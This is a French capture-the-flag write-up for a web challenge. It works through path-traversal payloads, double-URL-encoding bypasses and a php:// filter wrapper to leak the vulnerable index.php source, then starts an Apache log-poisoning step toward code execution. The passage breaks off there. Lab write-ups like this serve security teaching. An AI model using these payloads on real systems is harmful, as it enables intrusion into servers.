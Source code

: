 # **Bien plus qu'une simpe gallerie**
## <u>**Catégorie**</u>

Web, Box

## <u>**Description**</u> :

```
DESCRIPTION DU CHALL

Mitnick, un jeune stagiaire travaillant pour le projet INFEKTION a été missioné pour faire un site d'informations portant sur la guerre froide.

Il a essayé de sécuriser le site comme il pouvait, mais malheureusement pour lui il a laissé un moyen de prendre le contrôle du serveur...

FORMAT DU FLAG : MCTF{}
```

## <u>Hints</u> 

On verra

## <u>Auteur</u> 

0xSysr3ll

## <u>Solution</u> :

## Frontend web - LFI

Les pages sont chargées via le paramètre `?page=`.

On va donc essayer d'obtenir une LFI.

### Payload classiques :

- `/etc/passwd` : nok
- `../../../../../../../etc/passwd` : nok
- `../../../etc/passwd` : nok
- `....//....//....//....//etc/passwd` : nok

### Null byte :

`../../../etc/passwd%00` : nok

### Wrappers php :

`php://filter/read=string.rot13/resource=index.php` : nok

`php://filter/convert.base64-encode/resource=index.php` : nok

### Url encoding :

- `%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd` : nok
- `%252e%252e%252fetc%252fpasswd` : nok
- `%252e%252e%252fetc%252fpasswd%00` : nok

### Double url encoding :

`%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd` : OK !!

Pour leak le fichier `index.php`, on est obligés de passer par un wrapper `php`, puisque sinon le code va être exécuté.

`php://filter/convert.base64-encode/resource=index.php`

=> `php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dindex%252Ephp`

```php
<?php

ini_set('display_errors', 'Off');
ini_set('html_errors', 0);

function lfi_filter($value)
{
    $omit_words = array('..', '../', '/');
    rsort($omit_words);
    $new_string = str_replace($omit_words, '', $value);
    return $new_string;
}

if (isset($_GET["page"])) {
    $page = lfi_filter($_GET["page"]);
    include urldecode($page);
} else {
    include 'home.php';
}
```

## Frontend Web - RCE

Pour exploiter la LFI et migrer vers une RCE, nous pouvons utiliser cette technique :

```bash
nc 172.17.0.2 9000
GET /<?php phpinfo(); ?>
```

Cette requête est maintenant inscrite dans le fichier de logs apache : `/var/log/apache2/access.log`.

Et donc en requêtant ce fichier depuis le frontend web, elle sera normalement exécutée.
... (244 lignes restantes)